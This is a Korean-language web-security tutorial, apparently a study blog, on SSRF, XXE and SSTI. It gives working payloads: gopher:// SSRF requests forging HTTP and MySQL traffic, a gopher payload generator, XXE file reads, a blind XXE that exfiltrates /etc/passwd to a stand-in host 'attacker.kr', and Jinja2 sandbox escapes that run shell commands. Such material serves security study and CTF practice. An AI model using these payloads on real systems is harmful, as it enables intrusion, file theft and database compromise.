

# SSRF Overview

- 웹 어플리케이션에서 요청이 보내질 떄 웹 어플리케이션이 작동하고 있는 서버 내부의 포트, 서버와 연결된 내부망에 요청을 보낼 수 가 있죠
- server-side에서 변조된 요청, 의도하지 않은 서버로 요청을 보내어 별도의 인증 없이 내부방 안에서 요청되는 데이터를 조작하는 공격 기법입니다.
- 즉, 공격자가 의도한 서버로 요청을 가게 하는 취약점으로 CSRF 와 유사한 형태지만 클라이언트가 아닌 서버에 직접 영향을 줄 수 있다는 점에서 차이가 있습니다.

**다른 공격 기법과 연계**

- 다른 취약점과 연계에서 사용할 경우 RCE로 이어질 수 있기 때문에 파급력이 큽니다.
    - XXE 취약점 + SSRF 취약점
    - SSRF 취약점 + CRLF Injection 취약점
    - SSRF 취약점 + Redis-Server 연계 취약점
    - SSRF + MongoDB 연계 취약점

## PHP SSRF Example

- php curl API가 설정된 대상 애플리케이션 환경에서 GET 메서드의 url 쿼리를 통해 SSRF 공격이 수행되는 예시입니다.

```php
<?php
    $c_i = curl_init();
    curl_setopt($c_i, CURLOPT_URL, $_GET['url']);
    curl_setopt($c_i, CURLOPT_TIMEOUT, 5);
    curl_setopt($c_i, CURLOPT_CONNECTTIMEOUT, 5);
    curl_setopt($c_i, CURLOPT_RETURNTRANSFER, TRUE);
    curl_setopt($c_i, CURLOPT_FOLLOWLOCATION, FALSE);
    $result = curl_exec($c_i);
    curl_close($c_i);
?>
```

- 내부망에 접근이 가능한 영역에 접속

```php
# http://victim/?url=http://localhost/api/admin
```

- 내부망 서버에 접속

```php
# http://victim/?url=http://localhost:8000/
```

- `Gopher` 를 활용한 TCP 연결후 POST 요청

```php
# http://victim/?url=gopher://localhost:8000/_POST%20HTTP/1.1%0d%0a
```

# SSRF Exploit Technique

## SSRF 공격시 사용 가능한 Protocol 종류

- `http://` : HTTP 접속 용
- `ftp://` : ftp 접속 용
- `dict://` : RFC 2229 서버 액세스 용
- `sftp://` : sftp 접속 용
- `tftp://` : tftp 접속 용
- `ldap://` : JAVA ES 솔루션 Directory Server 용
- `gopher://` : TCP 연결용
- `netdoc://` : JDK9 버전 이하에서 사용, URL을 통해 외부적 네트워크 문서 참조용
- `file://` : 파일 읽기용

### PHP Wrapper (Only PHP)

```php
# PHP://filter/convert.base64-encode/resource=파일 경로
```

### Gopher Protocol을 활용한 HTTP 패킷 전송

- HTTP 패킷을 그대로 만들어서 전송이 가능합니다.
- 구조는 다음과 같은 형태로 구성하여 전송을 진행합니다.

```php
gopher://<proxy-server>/_GET%20http://<attacker.kr:80>/EX%20HTTP/1.1%0d%0a
gopher://<proxy-server>/_POST%20http://<attacker.kr:80>/EX%20HTTP/1.1%0d%0aContent-Length:21%0d%0aCookie:%20c_s=1%0d%0adata={a:1}
```

**Gopher HTTP (POST)**

- 정상적인 HTTP POST 요청 패킷
- `\r\n` 을 URL Encoding 하면 %0d%0a 사용됩니다.
- `Content-Length` 헤더가 존재해야 POST Body 데이터가 전송이 됩니다.

```php
POST /data HTTP/1.1\r\n
Content-Type:application/x-www-form-urlencoded\r\n
Content-Length:POST_BODY 길이\r\n
\r\n
POST_BODY
```

- Gopher 프로토콜을 활용하여 POST 패킷을 전송할 경우
- Gopher를 사용할 때 첫 한바이트는 건너 뛰고 사용해야 합니다.

```php
gopher://127.0.0.1/ _POST%20/data%20HTTP/1.1%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:%209%0d%0a%0d%0aPOST_BODY
```

**Gopher HTTP (Header)**

- 만약 다음 PHP 코드로 구성되어 있을 경우 다음과 같이 Gopher를 활용하여 통과할 수 있습니다.

```php
<?php
	if (isset($_SERVER['HTTP_XXXX']))
		echo "True";
?>
```

```php
GET / HTTP/1.1\r\n
XXXX:1234\r\n\r\n
```

- 위의 예시를 통해 다음 조건이 걸려 있다면 다음과 같이 구성을 하면됩니다.

```php
$_SERVER['REMOTE_ADDR'] === '127.0.0.1'
$_SERVER['HTTP_ADMIN'] === 'admin'
$_COOKIE['admin'] === 'admin'
$_POST['admin'] === 'admin'
```

- 공격 요청 패킷 정렬

```php
gopher://127.0.0.1:80/_POST /api/admin.php HTTP/1.1
Host: 127.0.0.1\r\n
ADMIN: admin\r\n
Cookie: admin=admin;\r\n
Connection: close\r\n
Content-Length: 11\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
\r\n
admin=admin
```

- gopher 프로토콜 포맷 정렬

```php
gopher://127.0.0.1:80/_POST%20/api/admin.php%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aADMIN:%20admin%0d%0aCookie:%20admin=admin;%0d%0aConnection:%20close%0d%0aContent-Length:%2011%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0a%0d%0aadmin=admin
```

### Gopher 프로토콜 활용 데이터베이스 접근

**취약한 대상 애플리케이션 소스 코드**

```php
<?php
    error_reporting(0);

    $conn = mysqli_connect('localhost', 'root', '', 'db_perpus');

    if (isset($_GET['source'])) {
        $source = $_GET['source'];
    } else {
        $source = '';
    }

    if (isset($_GET['url'])) {
        $result = 'Do Not Url..';
        $c_i = curl_init();
        curl_setopt($c_i, CURLOPT_URL, $_GET['url']);
        curl_setopt($c_i, CURLOPT_TIMEOUT, 5);
        curl_setopt($c_i, CURLOPT_CONNECTTIMEOUT, 5);
        curl_setopt($c_i, CURLOPT_RETURNTRANSFER, TRUE);
        curl_setopt($c_i, CURLOPT_FOLLOWLOCATION, FALSE);
        $result = curl_exec($c_i);
        curl_close($c_i);
    }
?>
<html>
<head>
    <title>gopher ssrf database</title>
    <meta charset="utf-8">
</head>
<body>
    <h1>gopher ssrf database</h1>
    <form action="" method="get">
        <input type="text" name="url" placeholder="url">
        <input type="submit" name="submit" value="submit">
    </form>
    <a href="?source">source</a>
    <hr>
    <?php echo $result?>
</html>
```

- 대상 애플리케이션에서 `mysqli_connect` 를 통해 `database host`, `database id`, `pw`, `database name` 으로 구성되어 있습니다.
- 현재 설정된 데이터를 확인해보면 패스워드가 설정되지 않고 운영이 되고 있습니다.
- gopher를 활용하기에 앞서 해당 애플리케이션의 데이터베이스 버전 정보와 서버 환경의 데이터를 수집을 진행합니다.
- mysql 을 사용하기 때문에, 실제 같은 환경을 구축한 후 mysql를 사용하여 로그인을 진행하면서 패킷을 수집합니다. 이때 대상 환경이 패스워드가 설정되어 있지 않기 때문에 로그인을 하지 않은 상태에서 id,host 정보만으로 접근을 시도합니다.

```php
mysql -h 127.0.0.1 -u root
```

- 연결을 진행한 후 패킷을 수집시 raw 데이터를 파싱해서 저장합니다.



**gopher 패킷 구축**

- mysql 로 로그인한 해당 패킷 raw 데이터를 기반으로 gopher 패킷을 생성하여 쿼리를 수행할 수 있는 하나의 페이로드를 만들어보겠습니다.

[Automation/SSRF-through-Gopher.py at master · tarunkant/Automation](https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py)

- 위 script를 활용하여 raw 데이터를 gopher 패킷으로 formatting 할 수 있도록 도와주는 도구를 사용하였습니다.
- 직접 구성을 해서 만드는 것도 추천합니다.

```php
dump = raw_input("Give connection packet of mysql: ")
query = raw_input("Give query to execute: ")

auth = dump.replace("\n","")

def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)

def get_payload(query):
    if(query.strip()!=''):
    	query = query.encode("hex")
    	query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    	pay1 = query_length.rjust(2,'0') + "00000003" + query
    	final = encode(auth + pay1 + "0100000001")
    	return final
    else:
	return encode(auth)

print "\nYour gopher link is ready to do SSRF : \n"
print get_payload(query)
```

- 최종적인 요청 패킷을 만들어 전송시 로그인이 완료되고 쿼리를 수행할 수 있습니다.

```php
gopher://127.0.0.1:3306/_%25%00%00%01%85%a6%03%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%40%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%74%61%62%6c%65%5f%6e%61%6d%65%29%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%3b%01%00%00%00%01%25%00%00%01%85%a6%03%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%40%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%74%61%62%6c%65%5f%6e%61%6d%65%29%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%3b%01%00%00%00%01'
```

- 다음과 같은 쿼리를 구성해서 gopher 패킷을 제작해 전송하여 서버측 데이터베이스 의 정보를 탈취할 수 있습니다.

```php
select @@version_comment limit 1@ select group_concat(table_name) from information_schema.tables;

SELECT * FROM Information_schema.tables WHERE table_schema = 'admin' AND table_name = 'flag';

admin flag BASE TABLEInnoDB 10

select table_name,column_name from information_schema.columns where table_schema = 'admin' and table_name = "admin";

use admin;select * from flag;
```

---

# XXE (XML External Entity Injection) Overview

- 대상 애플리케이션 환경에서 XML 데이터를 처리할 시 공격자가 악의적인 요소를 삽입하여 서버의 데이터를 보거나 SSRF와 함께 이용할 수 있는 취약점 입니다.
- XXS는 웹에서만 발생하는 취약점이 아닌, pptx, xlsx, docx 등 OOXML을 사용하는 곳에서 도 발생합니다.

**XML?**

- eXtensible Markup Language: 확장성 있는 마크업 언어
- W3C가 정보를 쉽게 교환하기 위해 만든 데이터 교환 포맷
- 다음과 같이 `<?xml version="1.0" encoding="UTF-8"?>` 로 시작해서 사용자가 마음대로 태그를 정의해서 사용합니다.
- 특정 데이터를 저장할 때 다음과 같이 포맷을 만들어서 저장하고 해당 내용을 불러올 때는 프로그램에 내장된 XML Parser를 이용합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName></lastName>
</userInfo>
```

# XML External Entity Injection 취약점

- 서버상에 저장된 XML 데이터를 불러올 때 XML Parser에서 외부 엔티티를 사용한다는 구문이 있다면 XML Parser가 해당 내용을 일고 데이터를 처리합니다.
- 만약에 일반적인 XML 데이터를 처리하는 프로그램이 있다고 하였을 때 외부 엔티티를 사용할 수있도록 코드를 주입하며 XXE 공격이 발생합니다.
- 선언된 외부 요소를 사용하고 싶다면 `&변수명` 과 같은 형식으로 사용합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe "Uee">]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&xxe;</lastName>
</userInfo>
```

- 위 코드 인젝션을 수행하였을 경우 응답 데이터를 정상과 비교해보록 하겠습니다.

```xml
정상 결과
Email : kevin@nasa.goc
FirstName : Kevin
LastName :

XXE 공격 수행 결과
Email : kevin@nasa.goc
FirstName : Kevin
LastName : Uee
```

- XXE 공격 수행 결과 “Uee” 라는 글자가 Response에 출력이 되었다면 파급력이 높은 XXE 공격이 성공할 가능성이 높아집니다.

### 그렇다면 XXE를 활용하여 무엇을 할 수 있까요?

- 파일 읽기 (file://, php://)
- SSRF (Port Scan, HTTP GET 접속,...)
- DOS (메모리 고갈 ⇒ &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, &xee, ...)
- Remote Code Execution (jar:// , XXE+SSRF(gopher://))
- ...

### XXE 파일 읽기

- file:// 프로토콜을 활용하여 서버내 파일을 읽어올 수 있습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file://etc/passwd">]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&xxe;</lastName>
</userInfo>
```

- 다음과 같이 서버에서 직접 접근해서 파일을 읽어오는 과정에서 인코딩 중 `<, >` 문자가 포함되어 있는 경우 인코딩 에러가 발생할 수 있기 때문에 `base64` 인코딩을 과정을 거치는 과정을 수행합니다.
- php:// php wrapper 를 활용하여 base64로 응답 데이터를 인코딩을 합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&xxe;</lastName>
</userInfo>
```

### Bind XXE Attack

- XXE 공격이 가능한 벡터가 존재하지만 서버에서 응답을 받을 수 없는 경우 활용 방안 입니다.
- 다음은 외부 서버에 페이로드를 구성합니다.

```xml
payload.xml

<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.kr/data?=%data;'>"> %eval;
```

- 다음은 대상 애플리케이션 에 공격할 페이로드 입니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob SYSTEM "http://attacker.kr/payload.xml"> % oob;]>
<userInfo>
	<email>kevin@nasa.gov</email>
	<firstName>Kevin</firstName>
	<lastName>&exfil;</lastName>
</userInfo>
```

- 해당 페이로드가 동작을 하면서 공격자 서버 access_log에 base64로 인코딩 된정보를 확인할 수 있습니다.

```xml
GET /data?bidF3123232oij== HTTP/1.0
```

---

# SSTI Server Side Template Injection Overview

- 웹 애플리케이션에 동적인 내용을 HTML로 출력할 때 미리 정의한 Template에 동적인 값을 넣어서 출력하는 Template engine을 이용합니다.
- 대부분의 Template Engine 에서 `{{2*3}}`, `${2*3}` 과 같은 문법을 지원합니다.
- 만약에 Template 내부에서 사용되는 Context가 아닌 Template Source에서 사용자 입력이 들어가게된다면 악의적인 입력을 통해 개발자가 의도하지 않은 임의의 Template 기능을 실행할 수 있게 됩니다.
- 사용자의 입력 데이터가 Template에 직접 사용될 경우 Template Engine이 해석하여 실행하는 문법을 사용할 수 있기 때문에 SSTI가 발생합니다

# Server Side Template Injection 취약점

### Server Side Template Injection Example

- Python Flask의 경우 Jinja2 Template Engine을 사용하며 아래와 같이 `render_template_string` API를 통해 해당 템플린 코드가 해석되어 클라이언트에 렌더링되어집니다.

```python
@app.route('/', methods=["GET", "POST"])
def root():
	user = request.args.get('user')
	if not user:
		user = 'guest'
	t_plate = '''<h1>So Good! %s'''%user
	return render_template_string(t_plate)
```

- jinja2 템플릿 문법은 다음과 같이 사용이 되며 `{{code}}` code는 Python 문법으로 사용하시면 됩니다.

```python
{{ Code }}

{{ 7 * 7 }} -----------Rendering--------> 49
```

- 내부 적으로 Python이 처리되면서 `built_in function`이 동작이 수행됩니다.
- 다음 `config` 는 애플리케이션 설정이 담긴 변수이며 출력하게 될시 서버의 다양한 정보를 확인할 수 있습니다.

```python
{{config}} # 애플리케이션 설정 값이 담긴 변수 

= Rendering =
 <Config {'JSON_AS_ASCII': True,
    'USE_X_SENDFILE': False,
    'SESSION_COOKIE_SECURE': False,
    'SESSION_COOKIE_PATH': None,
    'SESSION_COOKIE_DOMAIN': False,
    'SESSION_COOKIE_NAME': 'session',
    'MAX_COOKIE_SIZE': 4093,
    'SESSION_COOKIE_SAMESITE': None,
    'PROPAGATE_EXCEPTIONS': None,
    'ENV': 'production',
    'DEBUG': True,
    'EXPLAIN_TEMPLATE_LOADING': False,
    'MAX_CONTENT_LENGTH': None,
    'APPLICATION_ROOT': '/',
    'SERVER_NAME': None,
    'PREFERRED_URL_SCHEME': 'http',
    'JSONIFY_PRETTYPRINT_REGULAR': False,
    'TESTING': False,
    'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
    'TEMPLATES_AUTO_RELOAD': None,
    'TRAP_BAD_REQUEST_ERRORS': None,
    'JSON_SORT_KEYS': True,
    'JSONIFY_MIMETYPE': 'application/json',
    'SESSION_COOKIE_HTTPONLY': True,
    'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
    'PRESERVE_CONTEXT_ON_EXCEPTION': None,
    'SESSION_REFRESH_EACH_REQUEST': True,
    'TRAP_HTTP_EXCEPTIONS': False}> !!!
```

### SSTI Sandbox Escape

- 대상 서버 환경에서 파일 읽기 및 시스템 함수를 호출하기 위해서는 SandBox를 탈출해야 합니다.
- `open('/etc/passwd', 'rb').read()` 형태로 사용이 불가능 합니다.
- SandBox 탈출하기 위해서는 MRO를 이용하여 사용할 수 있는 클래스를 찾아야 합니다.

Method Resolution Order (**MRO)?**

- python 클래스 계층 구조에서 메서드를 찾는 순서 입니다.
- 현재 클래스와 연관된 모든 클래스를 확인할 수 있습니다.

**SSTI MRO**

- 호출을 하게 되면 `<type 'str'>`, `<type 'basestring'>`, `<type 'object'>` 3가지 가 출력됩니다.

```python
{{''.__class__.__mro__}}
```

- 그중에서 object class로 들어가서 서브 클래스를 출력하고 싶다면 다음과 같이 object의 서브 클래스들을 출력하면 됩니다.

```python
{{''.__class__.__mro__[2].__subclass__()}}
```

- **response**
    
    ```python
    <type 'type'>,
         <type 'weakref'>,
         <type 'weakcallableproxy'>,
         <type 'weakproxy'>,
         <type 'int'>,
         <type 'basestring'>,
         <type 'bytearray'>,
         <type 'list'>,
         <type 'NoneType'>,
         <type 'NotImplementedType'>,
         <type 'traceback'>,
         <type 'super'>,
         <type 'xrange'>,
         <type 'dict'>,
         <type 'set'>,
         <type 'slice'>,
         <type 'staticmethod'>,
         <type 'complex'>,
         <type 'float'>,
         <type 'buffer'>,
         <type 'long'>,
         <type 'frozenset'>,
         <type 'property'>,
         <type 'memoryview'>,
         <type 'tuple'>,
         <type 'enumerate'>,
         <type 'reversed'>,
         <type 'code'>,
         <type 'frame'>,
         <type 'builtin_function_or_method'>,
         <type 'instancemethod'>,
         <type 'function'>,
         <type 'classobj'>,
         <type 'dictproxy'>,
         <type 'generator'>,
         <type 'getset_descriptor'>,
         <type 'wrapper_descriptor'>,
         <type 'instance'>,
         <type 'ellipsis'>,
         <type 'member_descriptor'>,
         <type 'file'>,
         <type 'PyCapsule'>,
         <type 'cell'>,
         <type 'callable-iterator'>,
         <type 'iterator'>,
         <type 'sys.long_info'>,
         <type 'sys.float_info'>,
         <type 'EncodingMap'>,
         <type 'fieldnameiterator'>,
         <type 'formatteriterator'>,
         <type 'sys.version_info'>,
         <type 'sys.flags'>,
         <type 'exceptions.BaseException'>,
         <type 'module'>,
         <type 'imp.NullImporter'>,
         <type 'zipimport.zipimporter'>,
         <type 'posix.stat_result'>,
         <type 'posix.statvfs_result'>,
         <class 'warnings.WarningMessage'>,
         <class 'warnings.catch_warnings'>,
         <class '_weakrefset._IterationGuard'>,
         <class '_weakrefset.WeakSet'>,
         <class '_abcoll.Hashable'>,
         <type 'classmethod'>,
         <class '_abcoll.Iterable'>,
         <class '_abcoll.Sized'>,
         <class '_abcoll.Container'>,
         <class '_abcoll.Callable'>,
         <type 'dict_keys'>,
         <type 'dict_items'>,
         <type 'dict_values'>,
         <class 'site._Printer'>,
         <class 'site._Helper'>,
         <type '_sre.SRE_Pattern'>,
         <type '_sre.SRE_Match'>,
         <type '_sre.SRE_Scanner'>,
         <class 'site.Quitter'>,
         <class 'codecs.IncrementalEncoder'>,
         <class 'codecs.IncrementalDecoder'>,
         <class 'string.Template'>,
         <class 'string.Formatter'>,
         <type 'collections.deque'>,
         <type 'deque_iterator'>,
         <type 'deque_reverse_iterator'>,
         <type 'operator.itemgetter'>,
         <type 'operator.attrgetter'>,
         <type 'operator.methodcaller'>,
         <type 'itertools.combinations'>,
         <type 'itertools.combinations_with_replacement'>,
         <type 'itertools.cycle'>,
         <type 'itertools.dropwhile'>,
         <type 'itertools.takewhile'>,
         <type 'itertools.islice'>,
         <type 'itertools.starmap'>,
         <type 'itertools.imap'>,
         <type 'itertools.chain'>,
         <type 'itertools.compress'>,
         <type 'itertools.ifilter'>,
         <type 'itertools.ifilterfalse'>,
         <type 'itertools.count'>,
         <type 'itertools.izip'>,
         <type 'itertools.izip_longest'>,
         <type 'itertools.permutations'>,
         <type 'itertools.product'>,
         <type 'itertools.repeat'>,
         <type 'itertools.groupby'>,
         <type 'itertools.tee_dataobject'>,
         <type 'itertools.tee'>,
         <type 'itertools._grouper'>,
         <type '_thread._localdummy'>,
         <type 'thread._local'>,
         <type 'thread.lock'>,
         <type 'method_descriptor'>,
         <class 'markupsafe._MarkupEscapeHelper'>,
         <type '_io._IOBase'>,
         <type '_io.IncrementalNewlineDecoder'>,
         <type '_hashlib.HASH'>,
         <type '_random.Random'>,
         <type 'cStringIO.StringO'>,
         <type 'cStringIO.StringI'>,
         <type 'cPickle.Unpickler'>,
         <type 'cPickle.Pickler'>,
         <type 'functools.partial'>,
         <type '_ssl._SSLContext'>,
         <type '_ssl._SSLSocket'>,
         <class 'socket._closedsocket'>,
         <type '_socket.socket'>,
         <class 'socket._socketobject'>,
         <class 'socket._fileobject'>,
         <type 'time.struct_time'>,
         <type 'Struct'>,
         <class 'urlparse.ResultMixin'>,
         <class 'contextlib.GeneratorContextManager'>,
         <class 'contextlib.closing'>,
         <type '_json.Scanner'>,
         <type '_json.Encoder'>,
         <class 'json.decoder.JSONDecoder'>,
         <class 'json.encoder.JSONEncoder'>,
         <class 'threading._Verbose'>,
         <class 'jinja2.utils.MissingType'>,
         <class 'jinja2.utils.LRUCache'>,
         <class 'jinja2.utils.Cycler'>,
         <class 'jinja2.utils.Joiner’> …
    ```
    
- 출력된 결과에서 n번째 클래스를 선택하면 파일 클래스를 찾을 수 있습니다.

```python
{{''.__class__.__mro__[2].__subclass__()[n]}} # => <type 'file'>
```

- sub class의 file class를 찾았다면은 `open('/etc/passwd/').read()` 호출하여 파일을 읽을 수 있습니다.

```python
{{''.__class__.__mro__[2].__subclass__()[n].open('/etc/passwd/').read()}}
```

**SSTI MRO File Read/Exec**

- `subprocess.Popen` 객체를 활용하여 서버내 파일을 읽어와 출력하는 형태로 진행할 수 있습니다.
- subprocess 모듈을 사용하여 하부 프로세스 생성과 관리를 하는 `popen` 클래스를 사용합니다.
- 새로운 프로세스에서 자식 프로그램을 실행하고 POSIX에서 클래스는 자식 프로그램을 실행하는데 `os.execvp()` 와 동일하게 동작하며 `Shell=True` 셸의 기본 값이 /bin/sh로 지정되어 명령을 수행할 수 있습니다.
- timeout시 프로세스가 종료되지 않도록 하기 위해 `communicate` 메서드를 활용합시다.

```python
{{''.__class__.__mro__[2].__subclasses__()[n]('cat flag', shell=True, stdout=-1).communicate()}}

{{config.__class__.__init__.__globals__['os'].popen('flag').read()}}

{{''.__class__.__mro__[2].__subclasses__()[n]('flag', shell=True, stdout=-1).communicate()}}
```

```toc
```